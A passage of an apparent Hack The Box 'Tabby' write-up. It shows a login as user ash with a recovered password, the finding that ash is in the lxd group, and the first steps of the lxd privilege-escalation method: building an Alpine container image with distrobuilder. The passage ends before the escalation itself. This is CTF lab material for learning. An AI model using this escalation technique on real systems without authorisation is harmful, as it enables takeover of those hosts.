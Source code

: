 With password `admin@it`, I got user permission.

```
tomcat@tabby:/home$ ls
ash
tomcat@tabby:/home$ su ash
Password: 
ash@tabby:/home$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

### lxd/lxc mount file

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/tabby)

Checking user ash, this user in lxd/lxc group

```
ash@tabby:/tmp$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

At [lxd/lxc Group - Privilege escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation#method-1), I can follow it to get root

```
#Install requirements
sudo apt update
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
#Clone repo
sudo go get -d -v github.com/lxc/distrobuilder
#Make distrobuilder
cd $HOME/go/src/github.com/lxc/distrobuilder
```

Make install with root account in kali machine

```
┌──(root💀kali)-[~/go/src/github.com/lxc/distrobuilder]
└─# make                                                                                                                                                                    
gofmt -s -w .
go install -v ./...
go: downloading gopkg.in/yaml.v2 v2.4.0
<snip>
distrobuilder built successfully
```

```
#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
```

Build file lxd with `distrobuilder`

```
┌──(root💀kali)-[~/ContainerImages/alpine]
└─# /root/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
<snip>
┌──(root💀kali)-[~/ContainerImages/alpine]
└─# ls                                                                                                                                                                      
alpine.yaml  lxd.tar.xz  rootfs.squashfs
```
